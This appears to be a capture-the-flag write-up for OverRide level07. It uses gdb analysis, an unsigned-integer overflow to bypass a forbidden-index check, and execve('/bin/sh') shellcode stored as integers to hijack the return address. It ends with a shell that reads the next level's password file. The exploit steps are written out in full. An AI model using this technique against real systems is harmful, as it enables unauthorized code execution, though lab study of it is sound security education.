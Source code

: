 ```
   level07@OverRide:~$ ./level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: store
   Number: 132
   Index: 4
   Completed store command successfully
   Input command: read
   Index: 4
   Number at data[4] is 132
   Completed read command successfully
   Input command: read
   Index: 1
   Number at data[1] is 0
   Completed read command successfully
   Input command: read
   Index: 9999999999999999999999999999999999
   Number at data[4294967295] is 0
   Completed read command successfully
   Input command: store
   Number: 999999999999999999999999999999999
   Index: 2
   Completed store command successfully
   Input command: read
   Index: 2
   Number at data[2] is 4294967295
   Completed read command successfully
   Input command: quit
```
***

```
   level07@OverRide:~$ gdb level07
   Non-debugging symbols:
   0x0804842c  _init
   0x08048470  printf
   0x08048470  printf@plt
   0x08048480  fflush
   0x08048480  fflush@plt
   0x08048490  getchar
   0x08048490  getchar@plt
   0x080484a0  fgets
   0x080484a0  fgets@plt
   0x080484b0  __stack_chk_fail
   0x080484b0  __stack_chk_fail@plt
   0x080484c0  puts
   0x080484c0  puts@plt
   0x080484d0  __gmon_start__
   0x080484d0  __gmon_start__@plt
   0x080484e0  __libc_start_main
   0x080484e0  __libc_start_main@plt
   0x080484f0  memset
   0x080484f0  memset@plt
   0x08048500  __isoc99_scanf
   0x08048500  __isoc99_scanf@plt
   0x08048510  _start
   0x08048540  __do_global_dtors_aux
   0x080485a0  frame_dummy
   0x080485c4  clear_stdin
   0x080485e7  get_unum
   0x0804861f  prog_timeout
   0x08048630  store_number
   0x080486d7  read_number
   0x08048723  main
   0x08048a00  __libc_csu_init
   0x08048a70  __libc_csu_fini
   0x08048a72  __i686.get_pc_thunk.bx
   0x08048a80  __do_global_ctors_aux
   0x08048aac  _fini
   (gdb)
```
***

With this information as well as analysis of assembler dump of functions we can say that:
 
 * All numbers are read with scanf as a uint into data array. Therefore index can be used to move on stack beyond 100 uints and rewrite the return address of main function 

 * At the start of the program all arguments and env variables are deleted. This prevents us from storing shellcode in an env variable as we did before 

* All 3rd indeces are forbidden which is troublesome for writing anything consecutive into the array. But this can be bypassed with uint overflow as pointer arithmetic is used for accessing the array

So the initial plan is to store shellcode in the data array and overwrite eip to jump to our shellcode

For this let's get eip and array addresses on stack:

***
```
   (gdb) b main
   Breakpoint 1 at 0x8048729
   (gdb) r
   Starting program: /home/users/level07/level07

   Breakpoint 1, 0x08048729 in main ()
   (gdb) info frame
   Stack level 0, frame at 0xffffd710:
   eip = 0x8048729 in main; saved eip 0xf7e45513
   Arglist at 0xffffd708, args:
   Locals at 0xffffd708, Previous frame's sp is 0xffffd710
   Saved registers:
   ebp at 0xffffd708, eip at 0xffffd70c   # eip at 0xffffd70c -  address eip is saved at = main return address
```
  ***
```
   # Let's find where array is located

   (gdb) b read_number
   Breakpoint 1 at 0x80486dd
   (gdb) r
   Starting program: /home/users/level07/level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: read

   Breakpoint 1, 0x080486dd in read_number ()
   (gdb) x $ebp+0x8              # at this point location of data array is loaded on stack in read_number function
   0xffffd520:     0xffffd544    # 0xffffd544 - array address (altered by gdb with env variables); 0xffffd520 - its place on stack
```
***
```
   (gdb) p 0xffffd70c - 0xffffd544     # offset in main of saved return address from the array
   $1 = 456
   (gdb) p 456 / 4                     # divide by step in the array (uint is 4 bytes)
   $2 = 114                            # index of eip in data array
   
   (gdb) p 0xffffd544 - 0xffffd520     # offset between the array and its address pushed on stack 
   $4 = 36
```
***

Rip Index: 114 % 3 = 0 -> This index is forbidden but we know how to solve this

Runtime array address index: -36 / 4 = -9

To put shellcode into the array we need to translate it into uints (each 4 bytes long):
Shellcode for `execve("/bin/sh")` from [here](https://shell-storm.org/shellcode/files/shellcode-575.html): "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"


| Format | Idx0             | Idx1             | Idx2             | Idx3             | Idx4            | Idx5 |
|--------|------------------|------------------|------------------|------------------|-----------------|------|
| hex    | \x6a\x0b\x58\x99 | \x52\x68\x2f\x2f | \x73\x68\x68\x2f | \x62\x69\x6e\x89 | \xe3\x31\xc9\xc | /x80 |
| 4bytes | 0x99580b6a       | 0x2f2f6852       | 0x2f686873       | 0x896e6962       | 0xcdc931e3      | 0x80 |
| uint   | 2572684138       | 791636050        | 795371635        | 2305714530       | 3452514787      | 128  |

To put shellcode at the beginning indeces of the array (0-5) we need to get around forbidden ones (0, 3).
For this we use uint overflow:

2^(32) overflows to 0

(2^(32) / 4) % 3 = 1 

- Index 0: (2^(32)) / 4 = 1073741824
- Index 3: (2^(32) + (3 * 4)) / 4 = 1073741827
 
To store runtime array address at eip we also has to use this trick:

- Index 114: (2^(32) + (114 * 4)) / 4 = 1073741938

***
```
   level07@OverRide:~$ ./level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: store
   Number: 2572684138
   Index: 1073741824
   Completed store command successfully
   Input command: store
   Number: 791636050
   Index: 1
   Completed store command successfully
   Input command: store
   Number: 795371635
   Index: 2
   Completed store command successfully
   Input command: store
   Number: 2305714530
   Index: 1073741827
   Completed store command successfully
   Input command: store
   Number: 3452514787
   Index: 4
   Completed store command successfully
   Input command: store
   Number: 128
   Index: 5
   Completed store command successfully
   Input command: read
   Index: -9
   Number at data[4294967287] is 4294956388
   Completed read command successfully
   Input command: store
   Number: 4294956388
   Index: 1073741938
   Completed store command successfully
   Input command: quit
   $ whoami
   level08
   $ cat /home/users/level08/.pass
   7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```